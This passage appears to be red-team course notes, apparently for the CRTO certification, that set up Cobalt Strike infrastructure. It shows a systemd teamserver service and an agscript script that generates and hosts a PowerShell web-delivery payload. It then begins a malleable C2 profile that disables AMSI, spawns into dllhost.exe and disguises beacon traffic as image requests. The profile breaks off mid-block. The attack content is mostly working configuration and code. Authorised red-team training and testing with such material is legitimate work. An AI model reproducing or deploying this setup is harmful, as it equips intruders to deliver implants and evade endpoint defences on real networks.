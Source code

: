```powershell

[Install]
WantedBy=multi-user.target

$ sudo systemctl daemon-reload
$ sudo systemctl status teamserver.service
$ sudo systemctl start teamserver.service
$ sudo systemctl enable teamserver.service
```
Enable Hosting of Web Delivery Payloads via `agscript` client in headless mode
```
$ cat host_payloads.cna

# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}

# Add below command in "/etc/systemd/system/teamserver.service" file

ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'
```
```powershell
# Custom C2 Profile for CRTO
set sample_name "Dumbledore";
set sleeptime "5000";
set jitter    "20";
set useragent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36";
set host_stage "true";

post-ex {
        set amsi_disable "true";
	set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
	set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
}

http-get {
	set uri "/cat.gif /image /pixel.gif /logo.gif";

	client {
        	# customize client indicatorsi
		header "Accept" "text/html,image/avif,image/webp,*/*";
		header "Accept-Language" "en-US,en;q=0.5";
		header "Accept-Encoding" "gzip, deflate";
		header "Referer" "https://www.google.com";

		parameter "utm" "ISO-8898-1";
		parameter "utc" "en-US";

		metadata{
			base64;
			header "Cookie";
		}
	}

	server {
```